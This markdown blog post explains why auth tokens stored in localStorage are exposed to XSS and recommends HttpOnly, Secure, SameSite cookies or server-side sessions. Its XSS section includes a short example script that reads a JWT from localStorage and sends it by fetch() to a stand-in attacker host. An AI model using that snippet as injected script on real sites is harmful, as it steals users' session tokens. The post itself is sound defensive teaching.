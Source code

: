 ```yaml
---
title: Do Not Use LocalStorage To Save Session and Auth Tokens(Or Any Sensitive Information.)
description: An in-depth look at the security risks inherent in using localStorage to store sensitive informations and robust alternatives that ensure user data is protected.
slug: do-not-use-localstorage-to-save-session-and-auth-tokens
# image: localstorage-token.png
categories:
  - web-application-security
tags:
  - Authentication
  - Web Application Security
  - LocalStorage
weight: 1 # You can add weight to some posts to override the default sorting (date descending)
---
```


# Why using LocalStorage to save sensitive information is UNACCEPTABLE in 2025

Let's be clear. It's 2025. If you, as a developer, are still saving authentication tokens or any other sensitive information in localStorage, you're doing it wrong. Period.

I'm deeply irritated by the number of tutorials, bootcamps, and articles that perpetuate this ridiculous practice. It's a disservice to our profession and a wide-open door to vulnerabilities that should have been eliminated long ago. There's no longer any excuse for making this mistake.

This article isn't a debate. It's an eviction order for an insecure practice. If you teach this, stop.

## First Things First: What is LocalStorage?

It's a browser storage API. A simple JavaScript object where you throw key-value pairs. The end. It's designed to store trivial things, like a user's preference for a dark theme. Not to store the key to a safe. Using it for tokens is like writing down your bank password on a Post-it note and sticking it on your forehead.

# What sucks about localStorage? (Besides security)

Before we even get into the security debacle, localStorage is a technically poor tool for modern web development.

- **Blocks the Damn Main Thread**: It's synchronous. Every **getItem** or **setItem** locks up the UI. While the browser reads from disk, your application freezes. In 2025, with the obsession with performance and 60fps, using a synchronous API for I/O is just plain stupid.
- **Only Storage Garbage (Strings)**: It doesn't store objects. You're forced to do the JSON.stringify() and JSON.parse() nonsense for everything, adding useless code and potential points of failure. It's primitive.
- **Doesn't Talk to Web Workers**: Need to do heavy background processing to avoid crashing the page? Great. But your Web Workers don't have access to localStorage. It's useless for any minimally sophisticated architecture that requires shared state with background threads.
- **Single Origin**: localStorage is locked to the exact origin. `app.site.com` can't read what `api.site.com` has stored. For authentication that needs to work across subdomains, it dies here.

For these reasons alone, he would be a poor choice. But now, let's get to the main crime.

# The Deadly Sin: Cross-Site Scripting (XSS)

This is why any senior developer will laugh at you (or fire you) if you use localStorage for tokens.

Any script injected into your page has full and unrestricted access to localStorage. **ANY SCRIPT**.

An XSS attack occurs when an attacker manages to inject a piece of JavaScript into your application. A malicious comment, an unhandled URL parameter, any slip-up. And all it takes is one line:

```javascript
// malicious actor script injected into your page
const stolenToken = localStorage.getItem('jwt_token');

// send to the server (c2, etc.)
fetch(`https://hacker-server.com/stolen-token?token=?token=${stolenToken}`);
```

GAME OVER.

The attacker has the token. They are now your user. They can access data, make purchases, transfer money, and delete the account. And it's your fault for leaving the key under the rug. Trusting that your application is 100% XSS-proof is the height of arrogance.

# The Obvious Solution They Ignore: Cookies

The solution isn't new, it's not sexy, but it's the right one and has worked for decades: cookies. But not just any cookie thrown in. Cookies configured like a pro.

When your backend generates a token, it must enclose it in a cookie with three MANDATORY flags:

- `HttpOnly`: The most important. It makes the cookie **INACCESSIBLE** to client-side JavaScript. `document.cookie` simply doesn't see this cookie. The XSS attack we described becomes useless. The attacker's script tries to read it and finds nothing. Problem solved.
- `Secure`: Ensures that the cookie only travels over HTTPS. This prevents anyone in the middle (on a public Wi-Fi network, for example) from reading the cookie in plain text. This is basic digital hygiene.
- `SameSite=Strict (or Lax)`: Your weapon against **CSRF (Cross-Site Request Forgery)** attacks. Prevents the browser from sending the cookie in requests from other sites, preventing a user from being tricked into performing actions without knowing.

Your response header should look like this, no excuses:

`Set-Cookie: session_token=YOUR_TOKEN_HERE; HttpOnly; Secure; SameSite=Strict`

# Classic Alternative: Server Sessions

If you don't like JWTs or have a more traditional application, use the time-tested and proven method: server-side sessions.

In this model, the server stores all sensitive data and sends only a random session ID to the client, inside a cookie with the same flags (HttpOnly, Secure, SameSite).

# No More Excuses

Your job isn't to do the easiest thing, it's to do the right thing. Safety isn't a luxury; it's the foundation.

- **NEVER** use localStorage for tokens or any sensitive data.
- **ALWAYS** use cookies.
- Your cookie **MUST** have the HttpOnly, Secure, and SameSite attributes.
- Choose between Server-Side Sessions (stateful) or JWTs in Cookies (stateless) depending on your architecture.